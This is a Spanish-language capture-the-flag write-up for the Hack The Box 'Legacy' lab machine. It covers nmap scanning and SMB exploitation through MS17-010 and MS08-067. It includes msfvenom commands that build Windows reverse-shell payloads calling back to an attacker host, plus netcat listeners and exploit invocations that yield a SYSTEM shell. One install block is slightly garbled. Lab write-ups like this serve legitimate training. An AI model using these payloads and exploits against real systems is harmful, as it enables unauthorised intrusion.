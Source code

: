 #  LEGACY MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/1.PNG)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
	- [[#MS-17-010|MS-17-010]]
	- [[#MS08-067|MS08-067]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.4 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p139,445,3389 -sV -sC 10.10.10.4 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/3.PNG)

## EXPLOTACION

Como vemos que tiene el servicio smb habilitado, vamos a correr algunos script de nmap para detectar vulnerabilidades sobre ese servicio:

```bash
nmap -p445 --script=smb-vuln-* 10.10.10.4
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/4.PNG)

vemos que es vulnerable a **MS-17-010** y **MS-08-067**

podriamos ejecutar cualquiera de ambos y es lo que vamos a hacer.

### MS-17-010

para este caso encontre un script llamado **send_and_execute.py**:

[https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010
```

nos creamos una reverse shell en **.exe** malicioso con msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4242 EXITFUNC=threads -f exe -a x86 --platform windows -o shell.exe
```

y lo que hace este script es enviar un ejecutable a la maquina windows y ejecutarlo automaticamente, nos colocamos en escucha con netcat y ejecutamos.

**se necesita instalar impacket**

```bash
#python2
apt install python2
python2
wget ```python
https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python2 -m pip install .

#python3
apt install python3
python3
apt install python3-pip
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 -m pip install .
```

de acuerdo a con que version de python instalaste impacket ejecutas python o python3:

```bash
python send_and_execute.py 10.10.10.4 shell.exe
```

estamos dentro como root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/5.PNG)

### MS08-067

hay un script en github que nos ayudara: [https://github.com/areyou1or0/OSCP/blob/master/Scripts%20-%20MS08-067](https://github.com/areyou1or0/OSCP/blob/master/Scripts%20-%20MS08-067)

modificamos el exploit cambiando la shellcode por uno que vamos a generar:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4545 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

lo reemplazamos y ejecutamos.

**debe estar impacket instalado como en el anterior caso, de preferencia instalado con python2**

tiene unas opciones el script por sistema operativo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/6.PNG)

nos funciono con la opcion 6 asi que ejecutamos:

```bash
python ms08-067.py 10.10.10.4 6 445
```

en la escuhca en netcat ya ingresamos como root a la maquina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/7.PNG)

de igual forma podemos ver las flags.